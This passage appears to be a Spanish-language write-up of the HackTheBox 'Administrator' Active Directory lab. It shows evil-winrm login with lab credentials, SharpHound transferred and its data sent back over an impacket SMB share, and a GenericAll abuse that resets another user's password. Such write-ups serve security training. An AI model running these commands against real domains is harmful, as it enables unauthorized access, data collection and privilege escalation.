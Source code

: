 ```sh
evil-winrm -i 10.10.11.42 -u olivia -p ichliebedich
```

Teniendo acceso a la máquina y tratándose de un AD podríamos tratar de usar BloodHound para enumerar la máquina. Para ello la instalaremos siguiendo los pasos que dicta su [documentación](https://bloodhound.readthedocs.io/en/latest/installation/linux.html). Una vez tengamos BloodHound operativo, tanto la consola de neo4j como la interfaz web, nos descargaremos [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) para recolectar la información necesaria.
Para transferir archivos entre las máquinas usaremos la utilidad **smbserver.py** de impacket en el directorio donde tenemos el archivo SharpHound.exe

```sh
python3 smbserver.py smbFolder $(pwd) -smb2support
```

Y desde la máquina víctima

```sh
copy \\<tu_ip>\smbFolder\SharpHound.exe .
```

![Pic]({{ '/assets/img/administrator/6pic.png' | relative_url }}){: .center-image }

Con SharpHound en la máquina víctima corremos el siguiente comando:

```sh
.\SharpHound.exe -c All -domain administrator.htb
```

Esto nos generará un archivo BloodHound.zip, el cual tendremos que transferir a nuestra máquina usando nuevamente el servicio de smbserver.py.

```sh
copy BloodHound.zip \\<tu_ip>\smbFolder\BloodHound.zip
```

Ahora importamos el archivo BloodHound.zip a BloodHound, en la parte superior derecha, "Upload Data".
> En caso de que la subida se quede en 0% suele deberse a la compatibilidad entre SharpHound y BloodHound, os dejo el cómo resolverlo [aquí](https://github.com/BloodHoundAD/BloodHound/issues/700).

Ahora nos interesa buscar relaciones y permisos para poder escalar privilegios. En la parte superior izquierda podemos poner como punto de partida al usuario olivia, e ir probando con el resto de usuarios para averiguar si tenemos privilegios sobre alguno. También, si clickamos sobre las querys predefinidas, en especial la de "Find Shortest Path to Domain Admins" vemos que desde el usuario Emily podemos saltar a Ethan y este último, puede acontecer un DCSync.

## Explotación

Si clickamos en el nodo de Olivia, vemos que hay un apartado que dice: "First Degree Object Control", si clickamos vemos que tenemos el permiso GenericAll sobre el usuario Michael. Este permiso también se conoce como "Full Control" o control total y entre otras cosas, nos permite cambiarle la contraseña.

Para hacer esto último, corremos el siguiente comando en al sesión de Olivia:

```sh
Set-ADAccountPassword -Identity "Michael" -NewPassword (ConvertTo-SecureString "pass123" -AsPlainText -Force) -Reset
```
